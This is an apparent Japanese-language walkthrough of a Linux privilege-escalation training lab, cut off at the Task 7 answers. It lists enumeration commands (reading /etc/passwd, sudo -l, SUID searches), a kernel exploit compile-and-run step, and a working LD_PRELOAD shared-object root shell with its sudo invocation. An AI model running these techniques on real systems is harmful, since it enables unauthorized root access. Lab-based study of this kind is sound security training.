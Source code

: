 # Linux Privilege Escalation

## 環境

Username: karen  
Password: Password1

## Task3 Enumeration（列挙）

### 情報表示系コマンド

```shell
$ hostname    # ホスト名を表示
$ uname -a    # カーネルの情報を表示
$ cat /proc/version  # カーネルのバージョンに関する情報など
$ cat /etc/issue     # OSに関する情報を表示
$ ps -A       # 実行中のすべてのプロセスを表示
$ ps -axjf    # プロセスツリーを表示
$ ps aux      # すべてのユーザのプロセスを表示(a)、プロセスを起動したユーザを表示(u)、端末に接続されていないプロセスを表示(x)
$ env         # 環境変するを表示
$ sudo -l     # sudoコマンドを使用してユーザが実行できるコマンドを表示
$ id          # ユーザの特権レベルとグループを表示
$ cat /etc/passwd # システム上のユーザ情報一覧
$ history     # コマンドの使用履歴
$ ifconfig    # ネットワークインターフェースに関する情報
$ ip route    # ルーティングテーブルの表示
$ netstat -a  # すべてのListenポートとEstablishされた接続を表示
$ netstat -at # すべてのTCP接続。-uならUPD接続
$ netstat -tp # -p はPIDとサービス名を表示
```

### 検索コマンド

```shell
$ find . -name flag1.txt  # 現在のディレクトリで「flag1.txt」という名前のファイルを見つけます。
$ find / -type d -name config # 「/」の下にある config という名前のディレクトリを見つけます。
$ find / -type f -perm 0777 # 777 パーミッションを持つファイルを検索 (すべてのユーザーが読み取り、書き込み、および実行できるファイル)
$ find / -perm a=x # 実行可能ファイルを見つける
$ find /home -user frank # 「/home」の下にあるユーザー「frank」のすべてのファイルを検索します
$ find / -mtime 10 # 過去 10 日間に変更されたファイルを検索します
$ find / -atime 10 # 過去 10 日間にアクセスされたファイルを検索します
$ find / -cmin -60 # 過去 1 時間 (60 分) 以内に変更されたファイルを検索
$ find / -amin -60 # 過去 1 時間 (60 分) 以内のファイル アクセスを検索
$ find / -size 50M # サイズが 50 MB のファイルを検索
$ find / -perm -u=s -type f 2>/dev/null # SUIDビットガセットされているファイルを検索します。
```

## Task4 Automated Enumeration Tools(自動列挙ツール)

- [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [LES(Linux Exploit Suggester)](https://github.com/mzet-/linux-exploit-suggester)
- [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- [Linux Priv Checker](https://github.com/linted/linuxprivchecker)


## Task5 Privilege Escalation: Kernel Exploits

### カーネルエクスプロイトの手順

1. カーネルのバージョンを特定する
2. ターゲットシステムのカーネルバージョンのエクスプロイトコードを検索して見つける
3. エクスプロイトを実行する

### 情報源

- Google検索
- [https://www.linuxkernelcves.com/cves](https://www.linuxkernelcves.com/cves)
- LES (Linux Exploit Suggester) などのスクリプトを使用する

### タスク5の質問と解答

[ここ](https://www.exploit-db.com/exploits/37292)にあるコードをコンパイルして実行するとルートになれる

```shell
$ gcc ofs.c -o ofs
$ ./ofs
```
後は find で flag1.txtを探して中身を確認。

## Task6 Sudo

[sudo権限を持つコマンドの使用方法](https://gtfobins.github.io/)

### LD_PRELOADを利用した権限昇格手順

LD_PRELOADは任意のプログラムが共有ライブラリを使用できるようにする機能。

権限昇格手順は以下の通り。
1. LD_PRELOADを確認する(env_keepオプションを利用)
2. 共有オブジェクト(.so拡張子)ファイルとしてコンパイルされたCコードを作成
3. sudo権限と.soファイルを指すLD_PRELOADオプションでプログラムを実行

コード例

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

このコードをshell.cとして保存し、gccで共有オブジェクトとしてコンパイル

```shell
gcc -fPIC -shared -o shell.so shell.c --nostartfiles
```

sudoで実行できるプログラムを実行時に、この共有オブジェクトファイルを使用するように指定する

```shell
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```
### タスク6の質問と解答

1. sudo -lの出力を確認すればよい
2. /home/ubuntuにflag2.txtがあるのでcatで見る
3. https://gtfobins.github.io/ でnmapの欄を確認し、sudoでの特権昇格方
法に記載のとおり実行すればよい
4. sudo -l で確認すると/usr/bin/nanoが含まれているので、上記3のURLでnanoの欄を確認し、sudo出の特権昇格方法に記載のとおり実行すればよい

## Task7 Privilege Escalation:SUID

opensslを使用したハッシュパスワードの作成

```shell
$ openssl passwd -l -salt THM password1
$1$THM$WnbwlliCqxFRQepUTCkUT1
```

### タスク7質問と解答

